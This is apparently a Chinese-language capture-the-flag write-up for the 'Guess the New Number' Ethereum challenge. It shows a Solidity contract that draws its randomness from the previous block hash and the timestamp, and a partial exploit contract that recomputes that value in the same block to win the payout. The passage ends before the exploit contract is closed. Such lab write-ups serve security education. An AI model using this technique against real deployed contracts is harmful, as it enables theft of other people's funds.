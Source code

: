 *   题目

    ```
    pragma solidity ^0.4.21;

    contract GuessTheNewNumberChallenge {
        function GuessTheNewNumberChallenge() public payable {
            require(msg.value == 1 ether);
        }

        function isComplete() public view returns (bool) {
            return address(this).balance == 0;
        }

        function guess(uint8 n) public payable {
            require(msg.value == 1 ether);
            uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

            if (n == answer) {
                msg.sender.transfer(2 ether);
            }
        }
    }
    ```

    *   Write-Up

        该题目的keccak256计算是跟随函数一起执行的，所以无法使用“提前算出answer，手动执行函数”的思路。但是只需要answer的计算和guess中处于同一个区块即可。

        > 思路：创建另外一个合约函数，在新函数内部计算`uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now))`，再调用`guess(uint8 n)`，`answer`作为`guess(uint8 n)`的参数。
        >
        > 即可实现answer的计算和guess(uint8 n)在同一个区块。

        攻击合约如下：

    ```
    pragma solidity ^0.4.21;

    contract GuessTheNewNumberChallenge {
    ...
    }

    contract exploit{

        function deposit() payable returns (uint){
            return msg.value;
        }
        
        function withdraw() payable {
            msg.sender.transfer(this.balance);
        }

        function attacker(address addr) {
            require(this.balance >= 1 ether);

            uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

            GuessTheNewNumberChallenge guessContract = GuessTheNewNumberChallenge(addr);
            guessContract.guess.value(1 ether)(answer);
        }
